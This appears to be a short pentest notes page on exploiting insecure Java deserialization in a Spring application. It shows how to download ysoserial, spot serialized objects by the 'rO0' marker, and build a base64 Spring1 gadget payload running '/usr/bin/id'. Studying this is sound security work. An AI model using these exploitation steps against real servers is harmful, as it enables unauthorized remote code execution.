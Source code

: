 # ObjectInputStream - ysoserial

## ObjectInputStream - ysoserial

### Context

A Spring application that uses serialized Java objects.

The application is using the method readObject() (exposed to user input).

To be able to exploit this vulnerability, a chain of gadgets must be found (using ysoserial).

### Exploitation

* download ysoserial

```csharp
wget  https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-master-6eca5bc740-1.jar
java -jar ysoserial-master-6eca5bc740-1.jar
```

![](<../../../../.gitbook/assets/image (94).png>)

* try to find the right payload (try them all if enumeration fails ....)

### Vulnerable endpoint

Find where the serialized object is used. A good indicator is the string rO0, which is the base64 encoded version of \xac\xed\x00.

![](<../../../../.gitbook/assets/image (168).png>)

#### Payload creation

* Application is using Spring1

```csharp
java -jar ysoserial-master-6eca5bc740-1.jar  Spring1  "/usr/bin/id" | base64 -w 0
```

![](<../../../../.gitbook/assets/image (15) (1).png>)

* Inject the payload

![](<../../../../.gitbook/assets/image (137).png>)



### Resources

{% embed url="https://github.com/frohoff/ysoserial" %}



